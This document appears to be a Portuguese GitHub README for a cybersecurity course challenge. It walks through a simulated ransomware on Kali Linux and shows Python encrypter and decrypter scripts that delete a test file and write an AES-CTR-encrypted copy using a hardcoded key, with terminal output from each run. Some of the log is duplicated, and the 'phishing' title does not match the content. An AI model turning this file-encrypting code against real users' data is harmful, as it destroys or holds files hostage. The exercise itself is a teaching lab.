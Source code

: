 # Phishing para captura de senhas 🚩

Fazer a criptografia e descriptografia de um arquivo de teste, simulando um ransomware 

## Ferramentas 👨‍💻

- Kali Linux
- Python 3.11.9
- pyaes 1.6.1

## Passo a Passo 👣

-  Criando o ransomware

┌──(lucas㉿kali)-[~]
└─$ mkdir projeto-ransomware
                                                                                                                                                                               
┌──(lucas㉿kali)-[~]
└─$ cd projeto-ransomware
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ touch teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ touch encrypter.py
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ touch decrypter.py
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ nano encrypter.py 
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat encrypter.py             
import os
import pyaes



file_name = 'teste.txt'
file = open(file_name,'rb')
file_data = file.read()
file.close()



os.remove(file_name)


key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)


crypto_data = aes.encrypt(file_data)


new_file = file_name + '.ransomwaretroll'
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close

• Teste Ransomware


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ nano teste.txt   
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt   
Este arquivo do Lucas esta legivel
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ python encrypter.py
Traceback (most recent call last):
  File "/home/lucas/projeto-ransomware/encrypter.py", line 2, in <module>
    import pyaes
ModuleNotFoundError: No module named 'pyaes'

┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ pip3 install pyaes
Defaulting to user installation because normal site-packages is not writeable
Collecting pyaes
  Downloading pyaes-1.6.1.tar.gz (28 kB)
  Preparing metadata (setup.py) ... done
Building wheels for collected packages: pyaes
  Building wheel for pyaes (setup.py) ... done
  Created wheel for pyaes: filename=pyaes-1.6.1-py3-none-any.whl size=26347 sha256=f5f8885723ea8f5c435cc6c88d928f66119539915a6c2005eb503a721c98e292
  Stored in directory: /home/lucas/.cache/pip/wheels/4e/52/33/010d0843550bffb6a591b11629070ae140c0ad4f53e68a3bd3
Successfully built pyaes
Installing collected packages: pyaes
Successfully installed pyaes-1.6.1

┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls               
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt                
este arquivo esta legivel


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ python encrypter.py  
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt.ransomwaretroll
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt.ransomwaretroll 
ʉ   vm*67
          
o <  <
        


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ nano teste.txt   
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt   
Este arquivo do Lucas esta legivel
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ python encrypter.py
Traceback (most recent call last):
  File "/home/lucas/projeto-ransomware/encrypter.py", line 2, in <module>
    import pyaes
ModuleNotFoundError: No module named 'pyaes'

┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ pip3 install pyaes
Defaulting to user installation because normal site-packages is not writeable
Collecting pyaes
  Downloading pyaes-1.6.1.tar.gz (28 kB)
  Preparing metadata (setup.py) ... done
Building wheels for collected packages: pyaes
  Building wheel for pyaes (setup.py) ... done
  Created wheel for pyaes: filename=pyaes-1.6.1-py3-none-any.whl size=26347 sha256=f5f8885723ea8f5c435cc6c88d928f66119539915a6c2005eb503a721c98e292
  Stored in directory: /home/lucas/.cache/pip/wheels/4e/52/33/010d0843550bffb6a591b11629070ae140c0ad4f53e68a3bd3
Successfully built pyaes
Installing collected packages: pyaes
Successfully installed pyaes-1.6.1

┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls               
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt                
este arquivo esta legivel


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ python encrypter.py  
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt.ransomwaretroll
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt.ransomwaretroll 
ʉ   vm*67
          
o <  <
        

• Criar arquivo descriptografia


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat decrypter.py
import os
import pyaes

file_name = 'teste.txt.ransomwaretroll'
file = open(file_name, 'rb')
file_data = file.read()
file.close()


key = b'testeransomwares'
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

os.remove(file_name)


new_file = 'teste.txt'
new_file = open(f'{new_file}','wb')
new_file.write(decrypt_data)
new_file.close()

• Descriptografar arquivo


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt.ransomwaretroll
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt.ransomwaretroll 
ʉ   vm*67
          
o <  <
                                                                                                                                                                                      
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ python decrypter.py 
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt                
este arquivo esta legivel

## Resultados 🎁

https://github.com/Twistywasabi/Dio_cibersecurity-desafio-ransomware 

## Referências 📚

- https://web.dio.me/track/santander-ciberseguranca-2024
- https://www.kali.org/

## Updates 🕐

2024/12/12 - Primeira versão

## Pendências 🚨

